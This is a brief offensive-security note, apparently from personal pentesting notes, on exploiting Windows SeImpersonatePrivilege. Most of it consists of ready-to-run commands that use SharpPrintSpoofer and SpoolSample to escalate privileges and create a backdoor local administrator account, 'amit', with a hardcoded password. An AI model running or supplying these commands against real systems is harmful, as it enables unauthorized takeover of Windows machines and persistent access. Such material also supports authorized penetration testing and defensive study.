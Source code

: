 # Leveraging SeImpersonatePrivilege
- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator: 
1. `.\SharpPrintSpoofer.exe \\.\pipe\test2\pipe\spoolss "net user amit Password123! /add"`
2. `.\SharpPrintSpoofer.exe \\.\pipe\test2\pipe\spoolss "net localgroup administrators amit /add"`

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test2`
